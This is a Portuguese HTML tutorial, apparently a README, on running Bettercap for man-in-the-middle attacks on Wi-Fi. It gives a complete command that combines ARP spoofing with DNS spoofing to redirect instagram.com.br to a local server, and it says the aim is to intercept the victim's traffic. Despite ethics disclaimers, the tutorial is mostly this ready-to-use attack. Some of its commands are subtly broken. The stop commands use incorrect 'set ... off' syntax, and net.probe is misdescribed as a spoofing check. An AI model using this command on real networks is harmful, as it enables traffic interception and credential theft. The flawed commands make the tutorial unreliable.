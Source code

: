 
<h1>Tutorial de Uso do Bettercap para Testes de Segurança de Rede</h1>

<p>Este tutorial explica como usar o <strong>Bettercap</strong> para realizar testes de segurança em redes Wi-Fi. O Bettercap é uma ferramenta poderosa de man-in-the-middle (MITM) usada para capturar e manipular tráfego de rede, realizar ataques de spoofing, entre outros.</p>

<p><strong>Aviso importante:</strong> O uso de Bettercap para testes de penetração deve ser feito apenas em redes e dispositivos que você tem permissão para testar. A execução de ataques em redes sem autorização é ilegal e pode resultar em consequências legais.</p>

<h2>Pré-requisitos</h2>
<p>Antes de começar, certifique-se de que você possui os seguintes pré-requisitos:</p>
<ul>
<li><strong>Permissão:</strong> Você deve ter permissão para realizar testes de segurança na rede que deseja testar.</li>
<li><strong>Bettercap:</strong> A ferramenta Bettercap deve estar instalada em seu sistema. Você pode instalar o Bettercap com os seguintes comandos:</li>
</ul>
<pre><code>sudo apt update
sudo apt install bettercap</code></pre>
<ul>
<li><strong>Interface de Rede Wi-Fi:</strong> Verifique se você possui a interface de rede Wi-Fi (wlan0) configurada e em funcionamento.</li>
<li><strong>Ambiente Controlado:</strong> Realize os testes em um ambiente de rede controlado, como uma rede de laboratório, para garantir que você não está afetando usuários ou sistemas não autorizados.</li>
</ul>

<h2>1. Iniciando o Bettercap para Capturar o Tráfego na Rede</h2>
<p>O primeiro passo é iniciar o Bettercap para capturar pacotes e monitorar o tráfego da rede. O comando básico para iniciar o Bettercap com a interface wlan0 é:</p>
<pre><code>sudo bettercap -iface wlan0</code></pre>
<p><strong>Explicação:</strong></p>
<ul>
<li><code>-iface wlan0</code>: Especifica a interface de rede a ser usada. No caso, a interface wlan0 que é comum em adaptadores Wi-Fi.</li>
</ul>
<p>Isso iniciará o Bettercap em modo interativo, permitindo que você interaja com a ferramenta e configure ataques, como spoofing de ARP, DNS, entre outros.</p>

<h2>2. Realizando Spoofing de DNS e ARP</h2>
<p>Para realizar ataques de spoofing de DNS e ARP na rede, você pode usar o seguinte comando:</p>
<pre><code>sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"</code></pre>
<p><strong>Explicação:</strong></p>
<ul>
<li><code>-iface wlan0</code>: Especifica a interface de rede Wi-Fi (wlan0) para captura de pacotes.</li>
<li><code>-eval "set dns.spoof.domains instagram.com.br"</code>: Configura o domínio alvo para o ataque de spoofing de DNS, neste caso, instagram.com.br.</li>
<li><code>set dns.spoof.address 192.168.10.103</code>: Define o endereço IP para o qual as requisições DNS do domínio alvo serão direcionadas. Neste exemplo, estamos redirecionando para o IP 192.168.10.103.</li>
<li><code>dns.spoof on</code>: Habilita o ataque de spoofing de DNS.</li>
<li><code>arp.spoof on</code>: Habilita o ataque de spoofing de ARP, que permite enganar os dispositivos na rede sobre o endereço MAC de um gateway ou servidor.</li>
</ul>
<p>Esse comando realiza um ataque de spoofing de DNS e ARP, redirecionando as requisições DNS do domínio instagram.com.br para o endereço IP configurado (192.168.10.103). Isso pode ser útil para manipular ou interceptar o tráfego da vítima, direcionando-a para um servidor controlado.</p>

<h2>3. Monitorando e Controlando os Ataques</h2>
<p>Ao rodar o comando acima, o Bettercap ficará em execução e começará a realizar o ataque de man-in-the-middle (MITM) entre os dispositivos na rede e o servidor alvo. Durante esse processo, você pode monitorar o tráfego e fazer ajustes conforme necessário.</p>
<h3>Verificando o Status de Spoofing:</h3>
<p>Para verificar se os ataques de spoofing estão funcionando corretamente, você pode usar o seguinte comando no modo interativo do Bettercap:</p>
<pre><code>net.probe on</code></pre>
<p>Isso irá exibir uma lista de dispositivos na rede e os pacotes que estão sendo capturados.</p>

<h2>4. Finalizando os Ataques e Desconectando a Sessão</h2>
<p>Quando você terminar os testes de segurança ou o ataque, é importante limpar as configurações e parar os ataques em andamento.</p>

<h3>Comandos para Finalizar:</h3>
<ul>
<li><strong>Desligar o spoofing de DNS:</strong></li>
</ul>
<pre><code>set dns.spoof off</code></pre>
<ul>
<li><strong>Desligar o spoofing de ARP:</strong></li>
</ul>
<pre><code>set arp.spoof off</code></pre>
<ul>
<li><strong>Finalizar a execução do Bettercap:</strong></li>
</ul>
<pre><code>quit</code></pre>
<p>Esses comandos ajudam a desabilitar os ataques e a limpar a sessão do Bettercap.</p>
<h2>Considerações Finais</h2>
<ul>
<li><strong>Segurança e Ética:</strong> Certifique-se de realizar testes de segurança em redes e sistemas para os quais você tenha permissão explícita. A prática de hacking ético é essencial para melhorar a segurança cibernética.</li>
<li><strong>Responsabilidade:</strong> Nunca use estas ferramentas em redes que não sejam suas ou sem a permissão do proprietário. Testes de segurança não autorizados são ilegais.</li>
<li><strong>Ambiente Controlado:</strong> Realize os testes sempre em um ambiente controlado e protegido, como uma rede local de laboratório, para evitar danos a terceiros ou sistemas não relacionados.</li>
</ul>

<h2>Referências e Links Úteis</h2>
<ul>
<li><a href="https://www.bettercap.org/" target="_blank">Bettercap Official Documentation</a></li>
<li><a href="https://github.com/bettercap/bettercap" target="_blank">Bettercap GitHub Repository</a></li>
<li><a href="https://www.udemy.com/course/ethical-hacking/" target="_blank">Hacking Eticamente: Guia de Segurança</a></li>
</ul>

<p>Este README é apenas para fins educacionais e visa fornecer uma compreensão básica sobre como usar Bettercap para realizar ataques de redes em um ambiente controlado e com permissão.</p>
